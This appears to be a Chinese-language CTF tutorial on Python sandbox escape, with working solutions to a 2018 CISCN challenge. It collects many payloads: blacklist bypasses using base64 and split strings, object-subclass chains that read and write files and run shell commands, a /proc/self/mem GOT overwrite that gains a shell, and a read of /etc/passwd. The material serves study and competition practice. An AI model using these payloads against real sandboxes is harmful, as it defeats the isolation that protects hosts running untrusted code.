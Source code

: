 ```yaml
---
typora-root-url: ../../../docs
---
```


# Python沙盒
所谓的 Python 沙盒，即以一定的方法模拟Python终端，实现用户对 Python 的使用。

# Python沙箱逃逸的一些方法
我们通常所说的 Python 沙箱逃逸就是绕过模拟的 Python 终端，最终实现命令执行。
## 导入模块
在 Python 的内建函数中，有一些函数可以帮助我们实现任意命令执行：
```
os.system() os.popen()
commands.getstatusoutput() commands.getoutput()
commands.getstatus()
subprocess.call(command, shell=True) subprocess.Popen(command, shell=True)
pty.spawn()
```
在 Python 中导入模块的方法通常有三种(xxx为模块名称）)：
1. import xxx
2. from xxx import *
3. __import__('xxx')     
我们可以通过上述的导入方法，导入相关模块并使用上述的函数实现命令执行。
除此之外，我们也可以**通过路径引入模块**：
如在 linux 系统中 Python 的 os 模块的路径一般都是在 /usr/lib/python2.7/os.py ，当知道路径的时候，我们就可以通过如下的操作导入模块，然后进一步使用相关函数。
```py
>>> import sys
>>> sys.modules['os']='/usr/lib/python2.7/os.py'
>>> import os
>>>
```
**其他的危险函数举例**
如 **execfile** 文件执行
```py
>>> execfile('/usr/lib/python2.7/os.py')
>>> system('cat /etc/passwd')
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
>>> getcwd()
'/usr/lib/python2.7'
```
**timeit**
```py
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
```

** exec 和 eval 比较经典了**
```py
eval('__import__("os").system("dir")')

```
**platform**
```py
import platform
print platform.popen('dir').read()
```

但是，正常的 Python 沙箱会以黑名单的形式禁止使用一些模块如 os 或以白名单的形式只允许用户使用沙箱提供的模块，用以阻止用户的危险操作。而如何进一步逃逸沙箱就是我们的重点研究内容。

## Python 的内建函数
当我们不能导入模块，或者想要导入的模块被禁，那么我们只能寻求 Python 本身内置函数（即通常不用人为导入，Python本身默认已经导入的函数）。我们可以通过可以通过 `dir __builtin__` 来获取内置函数列表
```python
>>> dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BufferError', 'BytesWarning', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'NameError', 'None', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'ReferenceError', 'RuntimeError', 'RuntimeWarning', 'StandardError', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__debug__', '__doc__', '__import__', '__name__', '__package__', 'abs', 'all', 'any', 'apply', 'basestring', 'bin', 'bool', 'buffer', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'cmp', 'coerce', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'execfile', 'exit', 'file', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'intern', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'long', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'raw_input', 'reduce', 'reload', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'unichr', 'unicode', 'vars', 'xrange', 'zip']
```
在Python中，不引入直接使用的内置函数被成为 **builtin** 函数，随着 **__builtin__** 这个模块自动引入到环境中。那么我们如何引入的模块呢？我们可以通过 **__dict__** 引入我们想要引入的模块。**__dict__** 的作用是列出一个模组/类/对象 下面 所有的属性和函数。这在沙盒逃逸中是很有用的,可以找到隐藏在其中的一些东西
**__dict__**能做什么呢？
我们知道，一个模块对象有一个由字典对象实现的命名空间，属性的引用会被转换为这个字典中的查找，例如，m.x 等同于 m.dict["x"]。

绕过实例：
首先通过 base64 绕过字符明文检测
```python
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
```
然后通过 **__dict__** 引用
```py
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
```

*如果一些 内敛函数在 __builtins__ 删除 ，我们可以通过 reload(__builtins__) 重新载入获取一个完整的 __builtins__*
## 创建对象以及引用
Python 的 object 类中集成了很多的基础函数，我们想要调用的时候也是可以通过创建对象进而引用。

我们有常见的两个方法：
```bash
().__class__.__bases__[0]
''.__class__.__mro__[2]
```
![](http://oayoilchh.bkt.clouddn.com/18-5-3/14928461.jpg)
如，我们可通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/etc/services").read()`达到文件读取的效果，

**常见payload**
```py
#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()

#写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

#执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
```

## 间接引用
在有些题目中，如这次的2018年国赛的 Python 沙盒题目上，import 其实整个是被阉割了。但是在 Python 中，原生的 **__import__** 是存在被引用的，只要我们找到相关对象引用就可以进一步获取我们想要的内容，具体下面的demo会讲述到

## write修改got表
实际上是一个 **/proc/self/mem** 的内存操作方法
**/proc/self/mem** 是内存镜像，能够通过它来读写到进程的所有内存，包括可执行代码，如果我们能获取到Python一些函数的偏移，如 **system** ，我们便可以通过覆写 got 表达到 getshell的目的。
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```
第一个地址是 system 的偏移，第二个是fopen的偏移，我们可以通过 **objdump** 获取相关信息
![](http://oayoilchh.bkt.clouddn.com/18-5-3/25123674.jpg)

# 例子
2018 ciscn 全国大学生信息安全竞赛中的 Python 
我们可以通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/home/ctf/sandbox.py").read()` 
获取题目源码，然后可以进一步分析

## 解决
三种方法
### 0x01
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s /home/ctf')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')
```
### 0x02
修改 got
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('l'+'s /home/ctf/'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))


(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))

```
### 0x03
间接引用
在不断的 dir 过程中，发现 __closure__  这个 object 保存了参数，可以引用原生的 __import__
```py

print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('l'+'s home') 
```
# 参考
https://xz.aliyun.com/t/52#toc-10 
https://blog.csdn.net/qq_35078631/article/details/78504415 
https://www.anquanke.com/post/id/85571 
http://bestwing.me/2018/05/03/awesome-python-sandbox-in-ciscn/#0x01
